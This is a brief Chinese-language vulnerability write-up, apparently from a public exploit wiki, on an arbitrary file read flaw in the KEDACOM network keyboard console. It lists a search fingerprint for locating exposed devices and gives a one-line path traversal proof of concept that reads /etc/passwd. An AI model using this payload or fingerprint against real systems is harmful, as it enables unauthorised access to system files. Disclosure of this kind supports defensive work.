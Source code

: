 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>KEDACOM 网络键盘控制台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"网络键盘控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629778495373-5538cf42-58cb-4c98-94f4-3283820a9257.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791-20220313112704543.png)